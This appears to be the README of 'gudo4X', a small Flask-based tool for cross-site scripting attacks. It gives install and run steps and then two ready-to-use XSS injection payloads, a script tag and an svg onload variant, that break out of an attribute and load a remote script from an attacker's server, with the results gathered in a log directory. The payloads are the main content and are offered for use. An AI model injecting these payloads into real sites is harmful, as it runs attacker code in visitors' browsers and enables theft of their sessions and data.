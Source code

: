 ## gudo4X - guide dog for xss

### usage
* install flask and magic

```bash
sudo apt update && sudo apt install -y python3-flask python3-magic
```

* (for https) put cert files in project directory (cert.pem, key.pem)

* run:

```bash
sudo bash run.sh
```

* send the script in a xss:
```html
'"><script/src=https://yourserver/a.js></script>
```

```html
'"><svg/onload=body.appendChild(document.createElement`script`).src="https://yourserver/a.js">
```

* see the log directory
